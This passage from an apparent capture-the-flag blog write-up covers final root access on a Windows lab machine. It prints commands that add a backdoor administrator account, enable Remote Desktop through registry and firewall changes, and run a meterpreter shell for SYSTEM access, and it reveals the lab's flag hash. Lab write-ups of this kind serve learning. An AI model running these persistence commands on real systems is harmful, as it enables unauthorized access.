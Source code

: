 So I got connected but strangely I could not read the root.txt file even though I&#8217;m logged in as administrator. I always find it easier to work with remote desktop. I know its very noisy but for this final bit its worth it. 

I created a new user called test with password TotallySec123

<pre class="wp-block-preformatted">C:\Users\Administrator\Desktop&gt;net user test TotallySec123 /add<br />net user test TotallySec123 /add<br />The command completed successfully.<br />C:\Users\Administrator\Desktop&gt;net localgroup administrators test /add<br />net localgroup administrators test /add<br />The command completed successfully.</pre>

To enable remote desktop I ran the following as Administrator:`<br>`

<pre class="wp-block-preformatted">reg add "hklm\system\currentcontrolset\control\terminal server" /f /v fDenyTSConnections /t REG_DWORD /d 0<br />netsh firewall set service remoteadmin enable<br />netsh firewall set service remotedesktop enable</pre><figure class="wp-block-image">

<img src="https://i0.wp.com/offsecnewbie.com/wp-content/uploads/2018/11/rdesktop.png?w=680" alt="" class="wp-image-464" srcset="https://i0.wp.com/offsecnewbie.com/wp-content/uploads/2018/11/rdesktop.png?w=536 536w, https://i0.wp.com/offsecnewbie.com/wp-content/uploads/2018/11/rdesktop.png?resize=300%2C214 300w" sizes="(max-width: 536px) 100vw, 536px" data-recalc-dims="1" /> <figcaption>logged on as test with password TotallySec123</figcaption></figure> <figure class="wp-block-image"><img src="https://i1.wp.com/offsecnewbie.com/wp-content/uploads/2018/11/rootfile.png?w=680" alt="" class="wp-image-465" srcset="https://i1.wp.com/offsecnewbie.com/wp-content/uploads/2018/11/rootfile.png?w=747 747w, https://i1.wp.com/offsecnewbie.com/wp-content/uploads/2018/11/rootfile.png?resize=300%2C113 300w" sizes="(max-width: 680px) 100vw, 680px" data-recalc-dims="1" /><figcaption>root.txt file is green</figcaption></figure> <figure class="wp-block-image"><img src="https://i1.wp.com/offsecnewbie.com/wp-content/uploads/2018/11/encrpyted.png?w=680" alt="" class="wp-image-467" srcset="https://i1.wp.com/offsecnewbie.com/wp-content/uploads/2018/11/encrpyted.png?w=412 412w, https://i1.wp.com/offsecnewbie.com/wp-content/uploads/2018/11/encrpyted.png?resize=252%2C300 252w" sizes="(max-width: 412px) 100vw, 412px" data-recalc-dims="1" /><figcaption>the file is encrypted&nbsp;</figcaption></figure> 

It looks like the contexts can be indexed.  


I uploaded a meterpreter shell to priv esc to nt authority\system to see if could view the contents of the file but unfortunately I couldn&#8217;t.  


<pre class="wp-block-preformatted">C:\Users\Administrator\Desktop&gt;whoami<br />whoami<br />nt authority\system<br />C:\Users\Administrator\Desktop&gt;type root.txt<br />type root.txt<br />Access is denied.<br />C:\Users\Administrator\Desktop&gt;</pre>

I tried to use powershell to view the contents.  


<pre class="wp-block-preformatted">C:\Users\Administrator\Desktop&gt;powershell -nologo "& "Get-Content root.txt"<br />Get-Content : Access to the path 'C:\Users\Administrator\Desktop\root.txt' is denied.<br /></pre>

I&#8217;m really not sure whats going on here. Hopefully some one can enlighten me. I managed to get root by changing the administrator password, enabling Remote Desktop logging in, running the ZkAccess program, exiting Remote Desktop then viewing the text file as below:  


<pre class="wp-block-preformatted">C:\Users\Administrator\Desktop&gt;type root.txt<br />
type root.txt<br />
6e1586cc7ab230a8d297e8f933d904cf<br />
C:\Users\Administrator\Desktop&gt;</pre>